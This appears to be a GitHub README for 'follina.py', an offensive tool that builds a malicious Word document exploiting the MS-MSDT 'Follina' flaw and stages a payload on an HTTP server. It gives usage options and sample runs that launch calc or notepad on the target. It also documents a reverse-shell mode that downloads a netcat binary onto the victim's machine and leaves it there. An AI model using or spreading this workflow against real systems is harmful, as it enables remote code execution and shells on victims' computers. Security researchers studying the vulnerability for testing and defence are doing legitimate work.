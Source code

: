 # MS-MSDT "Follina" Attack Vector

> John Hammond | May 30, 2022

> Testing and debugging nu11secur1ty | June 5, 2022

- - OS: Windows 11
> The vulnerability on Windows 11 is fixed - by default!
--------------

Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

![Screenshot](https://user-images.githubusercontent.com/6288722/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png)

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

![Reverse Shell](https://user-images.githubusercontent.com/6288722/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png)
